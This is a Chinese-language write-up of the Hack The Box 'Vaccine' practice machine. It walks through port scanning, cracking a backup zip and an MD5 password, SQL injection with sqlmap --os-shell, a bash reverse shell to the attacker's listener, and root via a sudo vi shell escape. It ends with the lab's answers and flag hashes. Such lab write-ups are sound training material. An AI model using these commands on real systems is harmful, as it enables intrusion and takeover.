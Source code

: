 ```yaml
---
title: Vaccine
---
```

> 在打靶机的时候网络有点问题，所以这份WP里的目标机器的IP前后是不一样的，但总的来说，方法大同小异

## 扫端口

```shell
nmap -sC -sV 10.129.252.99
```

![image-20230402121345323](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402121345323.png)

开启了21、22和80端口，访问80端口，什么都没有，结合任务1和任务2，就直接练上去看有没有东西

![image-20230402131255007](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131255007.png)

## ftp

连上以后把文件复制出来

![image-20230402131346467](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131346467.png)

## 破解zip密码

解压的时候发现是有密码的

![image-20230402131602635](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131602635.png)

看到任务4，和经过百度知道利用 `zip2john`去获取压缩包的 `hash`值，然后使用 `john`去破解 `hash`值

![image-20230402131644512](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402131644512.png)

破解成功

![image-20230402132032683](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132032683.png)

## backup的内容

得到了两个文件

![image-20230402132448632](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132448632.png)

其中 `index.php`里面有网站的管理员账号和密码，密码经过了md5加密，经过破解得到：`qwerty789`，这也是任务5的答案

![image-20230402132520686](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132520686.png)

![image-20230402132605551](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402132605551.png)

## sql注入

登录到后台后有个搜索框尝试有无sql注入，发现可注入，加上任务6的提示，那就直接 `sqlmap`一把梭

![image-20230402204507038](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402204507038.png)

用 `burpsuite`抓包保存到1.txt后，利用sqlmap进行注入，并利用 `--os-shell`进行执行 `shell`的命令

![image-20230402223030330](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402223030330.png)

- 注入命令：

```shell
sqlmap -r 1.txt --os-shell 
```

## 反弹shell

- 攻击机监听

```shell
nc -lvvp 1234
```

- 在 `--os-shell`里执行

```shell
bash -c "bash -i >& /dev/tcp/10.10.14.13/1234 0>&1"
```

在网站的根目录下的 `dashboard.php`里发现了数据库的一个账号的密码

![image-20230402223929668](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402223929668.png)

```
账号：postgres
密码：P@s5w0rd!
```

## 提权

在前面的端口扫描里看到这台机器是开启了22端口的，尝试使用上面得到的账号密码去登陆（想要用这个是因为为反弹shell后并不稳定，老是掉线，所以就换另一个方法），可以成功登录![image-20230402224519697](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402224519697.png)

使用命令 `suo -l`查看 `postgres`能执行的高级权限的命令

![image-20230402224934023](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402224934023.png)

发现有一个命令是：

```shell
(ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
```

然后看官方的wp得知，可以利用vi进行提权

> 首先运行命令：sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
> 输入 `:`切换命令模式输入：set shell=/bin/sh
>
> 在按一次 `:`切换到命令模式输入：shell

然后就切换到了 `root`用户

![image-20230402230044265](https://alpha-blog-1300014916.cos.ap-guangzhou.myqcloud.com/img/image-20230402230044265.png)

## 答案

> 1. FTP
> 2. anonymous
> 3. backup.zip
> 4. zip2john
> 5. qwerty789
> 6. --os-shell
> 7. vi
> 8. ec9b13ca4d6229cd5cc1e09980965bf7
> 9. dd6e058e814260bc70e9bbdef2715849

# 参考博客

[hack the box靶场Vaccine靶机](https://blog.csdn.net/zr1213159840/article/details/123693695)

[渗透测试练习靶场hackthebox——Starting Point Vaccine攻略（内附各种bug解决方案）](https://blog.csdn.net/m0_48066270/article/details/108696605)
